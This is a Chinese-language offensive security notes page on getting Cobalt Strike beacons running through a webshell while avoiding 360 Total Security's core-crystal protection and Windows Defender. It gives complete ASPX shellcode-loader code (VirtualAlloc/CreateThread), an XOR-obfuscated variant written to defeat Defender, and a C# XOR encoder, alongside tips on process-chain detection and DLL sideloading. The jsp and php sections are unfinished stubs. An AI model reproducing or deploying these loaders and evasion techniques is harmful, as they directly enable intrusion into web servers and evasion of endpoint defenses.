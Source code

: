 # 概述

在webshell上线木马，他的进程链是cmd，若双击木马，它的进程链是explorer.exe



# 核晶查杀机制	

当我们在webshell终端执行cmd命令时，不要一上来就`whoami`，这样很容易会被杀软查杀，从而导致杀软的查杀力度越来越严格，毕竟360核晶是带机器学习引擎的

<img src="Webshell专题/image-20230706100519333.png" alt="image-20230706100519333" style="zoom:67%;" />	



最好先执行tasklist命令列出目标系统的所有进程，看看是否有杀毒软件

<img src="Webshell专题/image-20230707210931111.png" alt="image-20230707210931111" style="zoom:67%;" />		



有时候你执行calc.exe命令也会被核晶捕捉到，讲道理calc命令就是一个正常的命令，那么为什么会报毒呢？我觉得这可能是一开始你的一些操作被杀软捕捉到了，例如上述我说的执行whoami命令，一旦杀软的查杀力度上来了，你后面起的任何进程都会被查杀

![image-20230706102328691](Webshell专题/image-20230706102328691.png)	



360核晶查杀还涉及到进程链问题，当我们在webshell终端执行notepad.exe命令时，它的cmd进程是起在w3wp.exe进程下

> `w3wp.exe` 是 Windows Web 服务器 (IIS) 中的 Worker Process（工作进程）。在你的 web 应用程序接收到一个请求时，该请求实际上是由一个或多个这样的进程来处理的

<img src="Webshell专题/image-20230706104523446.png" alt="image-20230706104523446" style="zoom:67%;" />	



如果在虚拟机中直接打开cmd执行notepad.exe，可以发现cmd进程是起在explorer进程下，这种方式起的进程是不会被杀软查杀的

<img src="Webshell专题/image-20230706104945850.png" alt="image-20230706104945850" style="zoom:67%;" />	



我将白+黑程序上传至目标主机，随后在目标主机中点击白程序，CS能够成功上线

![image-20230707212917711](Webshell专题/image-20230707212917711.png)



但是在webshell的cmd终端执行白程序会被查杀，就连你劫持的哪个dll都会被杀软捕捉到

![image-20230707213404445](Webshell专题/image-20230707213404445.png)		



# bypass核晶思路

## 1.aspx马加载shellcode

### 实战演示

以下是aspx文件的代码，主要使用C#编写，导入了`System`和`System.Runtime.InteropServices`命名空间。

然后，它声明了两个P/Invoke方法，这些方法是.NET中用于调用Windows API或者其他非.NET DLL的方法。这两个方法是`VirtualAlloc`和`CreateThread`，它们来自`kernel32.dll`，一个是Windows系统的核心库

接下来是`Page_Load`方法，这是ASP.NET页面生命周期中的一个重要事件。在页面首次加载和后续的请求中，它都会被触发

```asp
<%@ Page Language="C#" %>
<%@ import Namespace="System"%>
<%@ import Namespace="System.Runtime.InteropServices"%>
<script language="c#" runat="server">
[DllImport("kernel32")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, uint size, uint flAllocationType, uint flProtect);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(uint lpThreadAttributes,uint dwStackSize, IntPtr lpStartAddress,IntPtr param, uint dwCreationFlags, ref uint lpThreadId);

public void Page_Load(object sender, EventArgs e){
	byte[] esc = new byte[928] {“填写C#的shellcode”};
	IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (uint)esc.Length, 0x1000, 0x40);
	Marshal.Copy(esc, 0, funcAddr, esc.Length);
	IntPtr hThread = IntPtr.Zero;
	uint threadId = 0;
	IntPtr pinfo = IntPtr.Zero;
	hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
	Response.Write("CreateThread: 0x" + hThread.ToString("x2") + "<br>");
   return;
}
</script>
```



在上述代码中，填写C#的shellcode要注意`w3wp.exe`的架构，w3wp.exe是IIS的工作进程，我们的aspx文件都是通过w3wp.exe来解析的，就如此处的`w3wp.exe`的架构是x64的，那就需要填写x64的shellcode

<img src="Webshell专题/image-20230707120718329.png" alt="image-20230707120718329" style="zoom:67%;" />	



360和火绒都不查杀此文件，但是WindowsDefender会查杀

![image-20230707121418517](Webshell专题/image-20230707121418517.png)	

<img src="Webshell专题/image-20230707221833150.png" alt="image-20230707221833150" style="zoom:67%;" />	



网页访问aspx文件时，cobaltstrike上线成功，并且360核晶也没有拦截

<img src="Webshell专题/image-20230707130455544.png" alt="image-20230707130455544" style="zoom: 50%;" />	

​				



在beacon执行`getuid`命令也不会被拦截，简单总结下，此类技术之所以能躲避杀软的检测，是因为w3wp.exe进程本身是正常存在的，并且经常在正常操作中被使用，这也导致杀软不敢轻易就关掉此进程

![image-20230707223429319](Webshell专题/image-20230707223429319.png)



### 免杀处理

WindowsDefender会查杀aspx代码里的shellcode, 只需对shellcode进行异或加密就能绕过, 以下是修改后的aspx文件代码

```asp
<%@ Page Language="C#" %>
<%@ import Namespace="System"%>
<%@ import Namespace="System.Runtime.InteropServices"%>
<%@ import Namespace="System.Text"%>
<script language="c#" runat="server">
[DllImport("kernel32")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, uint size, uint flAllocationType, uint flProtect);
[DllImport("kernel32")]
private static extern IntPtr CreateThread(uint lpThreadAttributes,uint dwStackSize, IntPtr lpStartAddress,IntPtr param, uint dwCreationFlags, ref uint lpThreadId);

public void Page_Load(object sender, EventArgs e){
    // 加密后的shellcode
    byte[] esc = new byte[928] { /* 省略 */ };
    
    // 解密密钥
    byte[] key = System.Text.Encoding.UTF8.GetBytes("henry666");

    // 解密shellcode
    for (int i = 0; i < esc.Length; i++)
    {
        esc[i] ^= key[i % key.Length];
    }
	
    IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (uint)esc.Length, 0x1000, 0x40);
    Marshal.Copy(esc, 0, funcAddr, esc.Length);
    IntPtr hThread = IntPtr.Zero;
    uint threadId = 0;
    IntPtr pinfo = IntPtr.Zero;
    hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
    Response.Write("CreateThread: 0x" + hThread.ToString("x2") + "<br>");
   return;
}
</script>

```



以下是xor加密shellcode的C#代码

```c#
using System;
using System.Text;

class Program
{
    static void Main()
    {
        // 原始shellcode
        byte[] shellcode = new byte[928] {};
            
        // 加密密钥
        byte[] key = Encoding.UTF8.GetBytes("henry666");

        // 加密shellcode
        for (int i = 0; i < shellcode.Length; i++)
        {
            shellcode[i] ^= key[i % key.Length];
        }

        // 打印加密后的shellcode
        Console.Write("byte[] shellcode = new byte[{0}] {{", shellcode.Length);
        for (int i = 0; i < shellcode.Length; i++)
        {
            Console.Write("0x{0}", shellcode[i].ToString("X2"));
            if (i != shellcode.Length - 1)
            {
                Console.Write(", ");
            }
        }
        Console.Write("};");

        // 等待用户按下回车键
        Console.WriteLine("\n\nPress Enter to exit...");
        Console.ReadLine();
    }
}
```



## 2.jsp马研究

webshell终端执行`tasklist`命令没有出现报毒

![image-20230711120654971](Webshell专题/image-20230711120654971.png)



执行whoami也没有报毒，为啥asp的马会报毒呢？会不会是冰鞋

![image-20230711120828955](Webshell专题/image-20230711120828955.png)	



运行白+黑时被杀软查杀了，查看进程链可以得知，cmd进程是起在javaw.exe下

> `javaw.exe` 提供了一个运行环境，用于运行解析和执行 JSP 文件的 Servlet 容器

![image-20230711162006664](Webshell专题/image-20230711162006664.png)			

![image-20230711161922059](Webshell专题/image-20230711161922059.png)



## 3.php马

​			





# End

​	





​	





​			

​		

​	